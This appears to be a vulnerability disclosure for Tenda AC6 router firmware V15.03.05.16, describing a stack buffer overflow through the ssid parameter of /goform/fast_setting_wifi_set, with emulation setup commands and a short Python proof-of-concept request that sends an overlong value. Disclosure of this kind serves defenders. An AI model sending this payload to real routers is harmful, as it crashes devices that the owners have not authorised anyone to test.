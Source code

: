 form\_fast\_setting\_wifi\_ set ssid
------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

The acting parameter ssid of the function form\_fast\_setting\_wifi\_set in the affected file /goform/fast\_setting\_wifi\_set causes a stack-based buffer overflow. The attack can be launched remotely

In the function form\_fast\_setting\_wifi\_set, it reads the user-supplied arguments into src and `strcpys`

![](api/attachments/OzhOMXwsr5cB/image/image.png)

### poc

```text-plain
import requests

IP = "192.168.142.100"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

![](api/attachments/XJRH28oqmYZp/image/image.png)


